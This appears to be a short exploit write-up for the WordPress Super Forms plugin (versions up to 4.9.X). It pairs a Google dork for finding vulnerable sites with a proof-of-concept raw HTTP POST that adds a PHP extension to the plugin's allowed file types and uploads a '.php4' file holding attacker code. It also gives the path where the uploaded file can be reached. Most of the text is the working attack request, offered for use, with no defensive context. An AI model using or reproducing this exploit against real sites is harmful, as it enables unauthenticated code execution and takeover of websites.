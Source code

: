 Google Dork
-----------

    inurl:"/wp-content/plugins/super-forms/"

影響版本
--------

All (\<= 4.9.X)

POC
---

    POST /wp-content/plugins/super-forms/uploads/php/ HTTP/1.1
     <=== exploit end point
    Host: localhost
    User-Agent: UserAgent
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    X-Requested-With: XMLHttpRequest
    Content-Type: multipart/form-data;
    boundary=---------------------------423513681827540048931513055996
    Content-Length: 7058
    Origin: localhost
    Connection: close
    Referer: localhost
    Cookie:

    -----------------------------423513681827540048931513055996
    Content-Disposition: form-data; name="accept_file_types"

    jpg|jpeg|png|gif|pdf|JPG|JPEG|PNG|GIF|PDF                        <=======
    inject extension (|PHP4) to validate file to upload
    -----------------------------423513681827540048931513055996
    Content-Disposition: form-data; name="max_file_size"

    8000000
    -----------------------------423513681827540048931513055996
    Content-Disposition: form-data; name="image_library"

    0
    -----------------------------423513681827540048931513055996
    Content-Disposition: form-data; name="files[]";
    filename="filename.(extension)"    <====   inject code extension (.php4)
    for example
    Content-Type: application/pdf

    Evil codes to be uploaded

    -----------------------------423513681827540048931513055996--

    # Uploaded Malicious File can  be Found in :
    /wp-content/uploads/superforms/2021/01/<id>/filename.php4
    u can get <id> from server reply .